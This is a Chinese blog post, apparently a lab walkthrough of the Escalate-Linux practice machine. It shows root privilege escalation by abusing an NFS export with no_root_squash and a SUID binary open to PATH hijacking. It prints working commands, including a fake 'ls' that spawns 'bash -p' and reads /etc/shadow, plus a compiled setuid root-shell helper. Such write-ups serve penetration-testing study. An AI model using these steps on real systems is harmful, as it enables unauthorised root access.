







+++
date = '2026-07-08T23:32:51+08:00'
draft = false
title = 'Escalate-Linux渗透(PATH劫持+NFS文件共享)'
+++

这一篇是基于上一篇Escalate-Linux渗透测试的笔记，上一篇通过找到.script.sh这个可写文件并且是在shell文件的suid root程序来运行提权脚本实现提权

本篇是基于NFS/SMB文件共享链路实现攻击提权

### 查询NFS共享文件配置

```
cat /etc/exports
```

/srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)

解读;/srv/homes目录可以被远程主机访问

名为hostname1的主机拥有rw权限，而且这个NFS文件共享是no_subtree_tree（不检查访问共享目录时是否是子目录）的，



关键配置就是/home/user5 *(rw,no_root_squash)

允许所有主机访问而且都是rw权限，关闭了root_squash防护，这个东西是客户端以主机root权限访问这个共享文件还是root权限 这里就是我们的入手点


### 查询Samba文件共享配置



这里看到samba文件共享路径是/home/%U/linux_share



使用kali主机访问samba共享目录 被拒绝     **回去尝试NFS共享文件**

### 漏洞利用



回到shell去访问这个NFS文件共享



看到这个script文件权限是-rwsr-这个文件是一个SUID root程序,而且ls文件还是可控的rws文件

```
 user6  / | home | user5  strings script                                       
strings script
/lib64/ld-linux-x86-64.so.2
F7>S:
libc.so.6
setuid
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
=y       
=W       
=Z       
AWAVI
AUATL
[]A\A]A^A_
;*3$"
GCC: (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7696
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
script.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

当前ls文件真实内容:

```
id
whoami
cat /etc/shadow
```

验证script文件执行会受PATH影响执行ls

```
PATH=/home/user5:/usr/bin:/bin ./script
```



能看到前几行显示的内容大致这个script文件执行了setuid(0);  setgid(0) system("ls")  **没有写system("ls")的绝对路径**，PATH劫持最终执行了/home/user5/ls

## 攻击链路

kali挂载NFS，

```
mkdir /tmp/nfs
sudo mount -t nfs 192.168.159.133:/home/user5 /tmp/nfs
```

```
echo '/bin/bash -p' > /tmp/nfs/ls  ## -p  通过SUID保持root权限打开bash
chmod +x /tmp/nfs/ls
```

这里遇到一个小问题就是我显示一直权限不够，排查原因是因为当前kali用户是普通用户，nfs挂载文件ls这个文件是root文件，需要先sudo su切换到root权限

然后去靶机反弹的shell执行PATH路径劫持

```
cd /home/user5
PATH=/home/user5:/usr/bin:/bin ./script
```



到此提权成功

PATH路径劫持+NFS文件共享


还有一条链路就是：

在挂载nfs共享文件之后，写一个提权helper

```
#include <unistd.h>

int main() {
    setgid(0);
    setuid(0);
    execl("/bin/bash", "bash", "-p", NULL);
    return 0;
}
```

编译并放到 NFS 导出目录：

```
gcc shell.c -o /tmp/nfs/rootshell
sudo chown root:root /tmp/nfs/rootshell
sudo chmod 4755 /tmp/nfs/rootshell
```

然后在 webshell 或反弹 shell 中执行：

```
/home/user5/rootshell -p
id
```

即可 root。

